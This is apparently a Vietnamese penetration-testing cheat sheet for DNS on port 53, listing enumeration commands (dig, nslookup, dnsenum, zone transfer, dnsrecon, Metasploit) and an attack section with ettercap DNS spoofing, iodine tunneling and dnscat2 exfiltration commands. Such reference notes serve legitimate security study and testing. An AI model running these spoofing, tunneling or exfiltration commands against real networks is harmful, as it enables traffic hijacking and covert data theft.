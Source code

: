 # DNS (Port 53)

## Connect

### dig

Thực hiện truy vấn DNS để kiểm tra kết nối tới máy chủ DNS:

```
dig @<ip> <domain>
```

### nslookup

Thực hiện truy vấn DNS tới máy chủ cụ thể:

```
nslookup <domain> <ip>
```

### telnet

Kiểm tra kết nối tới máy chủ DNS trên cổng 53 (UDP):

```
nc -nv -u <ip> 53
```

***

## Enumeration

### Thu thập banner

Xác định phiên bản máy chủ DNS bằng truy vấn version.bind:

```
dig version.bind CHAOS TXT @<ip>
```

### Phát hiện máy chủ DNS

Xác định các máy chủ tên (nameservers) liên quan đến một miền:

```
dig NS <domain>
nslookup -type=NS <domain>
```

### Tự động hóa kiểm tra subdomain

Tự động phát hiện subdomain bằng dnsenum:

```
dnsenum --dnsserver <ip> --enum -p 0 -s 0 -o subdomains.txt -f <wordlist> <domain>
```

### Truy vấn&#x20;

#### dig

Thực hiện các truy vấn DNS để thu thập thông tin:

```
dig <domain>
dig A <domain>
dig -x <ip>
dig @<ip> <domain>
```

#### nslookup

Thực hiện truy vấn DNS cho các loại bản ghi hoặc reverse lookup:

```
nslookup <domain>
nslookup -type=MX <domain>
```

#### host

Thực hiện truy vấn DNS để lấy địa chỉ IP hoặc bản ghi cụ thể:

```
host <domain>
host -t MX <domain>
host <ip>
```

#### Truy vấn tất cả bản ghi

Lấy tất cả bản ghi DNS từ máy chủ:

```
dig any <domain> @<ip>
```

### Zone Transfer

Thực hiện truy vấn AXFR để lấy tất cả bản ghi của một miền:

```
dig axfr @<ip>
dig axfr @<ip> <domain>
fierce --domain <domain> --dns-servers <ip>
```

### Metasploit

Sử dụng module Metasploit để liệt kê thông tin DNS:

```
msf> use auxiliary/gather/enum_dns
```

### Cache Snooping

Kiểm tra bộ nhớ cache DNS để tìm bản ghi trước đó:

```
dnsrecon -t std -d <domain> -D /usr/share/dnsrecon/namelist.txt
```

### Google Dorks

Thu thập thông tin DNS bằng toán tử tìm kiếm Google:

```
site:<domain> -<domain> -site:<domain>
```

### Maltego

Sử dụng Maltego để trực quan hóa thông tin DNS và mối quan hệ mạng:

```bash
maltego
```

### Công cụ trực tuyến

Sử dụng các công cụ trực tuyến để thu thập thông tin DNS:

```
DNS Dumpster: dnsdumpster.com
DNS Recon: dnsrecon.com
Spyse: spyse.com
SecurityTrails: securitytrails.com
DNSlytics: dnslytics.com
```

Tìm subdomain qua nhật ký Certificate Transparency bằng công cụ trực tuyến:

```
CertSpotter: certspotter.com
```

***

## Attack Vectors

### DNS Spoofing

Đưa dữ liệu DNS giả vào bộ nhớ cache để chuyển hướng lưu lượng:

```
ettercap -T -q -M arp:remote /<gateway_ip>// /<ip>// -P dns_spoof
```

### DNS Tunneling

Mã hóa dữ liệu trong truy vấn và phản hồi DNS để vượt qua mạng:

**Cài đặt trên máy chủ**

```
iodined -f -c <tunnel_ip> <domain>
```

**Cài đặt trên máy khách**

```
iodine <ip> <domain>
```

***

## Post-Exploitation

### Cache Snooping

Kiểm tra bộ nhớ cache DNS để xác định bản ghi đã truy vấn:

```
dig @<ip> <domain> +norecurse
```

### Reverse DNS Lookup

Thực hiện truy vấn ngược để tìm tên miền liên quan đến địa chỉ IP:

```
dig -x <ip>
```

### DNS Exfiltration

Trích xuất dữ liệu qua truy vấn DNS bằng dnscat2:

**Cài đặt trên máy chủ**

```
dnscat2 --dns server=<ip>:53
```

**Cài đặt trên máy khách**

```
dnscat2 <domain>
```